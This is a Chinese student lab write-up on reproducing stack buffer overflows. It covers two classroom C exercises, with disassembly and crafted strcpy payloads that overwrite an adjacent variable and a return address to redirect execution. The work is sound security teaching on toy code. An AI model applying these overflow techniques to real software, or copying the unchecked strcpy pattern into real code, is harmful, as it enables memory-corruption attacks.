 ## 缓冲区溢出漏洞复现

### 实验环境

* Windows 11
* Vistual Studio

### 实验过程

#### 实验一

新建一个空项目，将老师提供的不完整代码拷贝过去

```c++
#pragma warning(disable:4996) 

#include <stdio.h>
#include <string.h>

int func2(int a)
{
	int y;
	printf("%d", y);
	return 0;
}

int func1(int b)
{
	char x[10];
	strcpy(x, ""); // 只能修改这一行代码中的字符串，使程序运行后输出“20221118”
	return 0;
}

int main(int argc, char** argv)
{
	func1(1);
	func2(0);
}
```

观察`fun2`可以发现，局部变量`y`并没有赋初值，所以在输出的时候，`y`是等于内存中的一个值。那么主函数中，我们分别调用了func1和func2两个函数。而这 两次函数调用，栈帧的在内存中的位置是重叠的。因此，func1函数给局部变量赋值，会影响func2 未赋初始值的局部变量。

 我们转到反汇编中再仔细看看

```assembly
int func2(int a)
{
00BE1660  push        ebp  
00BE1661  mov         ebp,esp  
00BE1663  sub         esp,44h  
00BE1666  push        ebx  
00BE1667  push        esi  
00BE1668  push        edi  
	int y;
	printf("%d", y);
00BE1669  mov         eax,dword ptr [ebp-4]  
00BE166C  push        eax  
00BE166D  push        0BE5B30h  
00BE1672  call        00BE10AA  
00BE1677  add         esp,8  
	return 0;
00BE167A  xor         eax,eax  
} 
```

```assembly
int func1(int b)
{
00BE1630  push        ebp  
00BE1631  mov         ebp,esp  
00BE1633  sub         esp,4Ch  
00BE1636  push        ebx  
00BE1637  push        esi  
00BE1638  push        edi  
	char x[10];
	strcpy(x, ""); // 只能修改这一行代码中的字符串，使程序运行后输出“20221118”
00BE1639  push        0BE5B33h  
00BE163E  lea         eax,[ebp-0Ch]  
00BE1641  push        eax  
00BE1642  call        00BE1190  
00BE1647  add         esp,8  
	return 0;
00BE164A  xor         eax,eax  
}
```

我们可以看到`x`的地址是`ebp-0Ch`，`y`的地址`ebp-4`。所以说`x`的值是可以覆盖到`y`的值，`0Ch`转为十进制为`12`，所以这两个地址相差`8`。`20221118`转为十六进制为`1348CBE`，那么修改后的代为如下

```C
strcpy(x, "\x01\x02\x03\x04\x05\x06\x07\x08\xBE\x8C\x34\x01");
```

![](img/1.png)

#### 实验二

新建一个空项目，将老师提供的不完整代码拷贝过去

```c
#pragma warning(disable:4996) 

#include <stdio.h>
#include <string.h>

int x() 
{
	printf("hi!");
	return 0;
}

int func2(char * a)
{
	char x[10];
	strcpy(x, a);
	return 0;
}

int func1()
{
	func2(""); // 只能修改21行的字符串，实现执行x函数，节目输出"hi!"
	return 0;
}

int main(int argc, char** argv)
{
	func1();
}
```

那其实函数`x`的效果就是打印 hi！ ,且只有该函数具有打印输出功能。题目的意思就是想让我们在21行能调用x函数。

这里就要通过一张图来说明函数调用的关系

![](img/2.png)

那我们可以知道，在`EBP`后面所跟的就是下一个函数的地址。那其实我们只要将字符串`x`的影响范围扩大到`call`指令的下一条指令的地址。这样就能调用打印函数了。那所谓扩大影响范围，也就是适量增加一下字符串的长度。

![](img/3.png)

局部变量从`EBP-10h`开始，图中黄色框中的为`EBP`，红色框的为下一个指令的地址，那么我们同样也可以验证一下

![](img/4.png)

那我们再查看一下函数`x`的地址

![](img/5.png)

其地址为`004119C0`，那我们只需要将`31184100`，改为`x`的地址即可

构造如下字符串

`this is a testtttttt\xC0\x19\x41`

运行即可输出`hi!`

![](img/6.png)

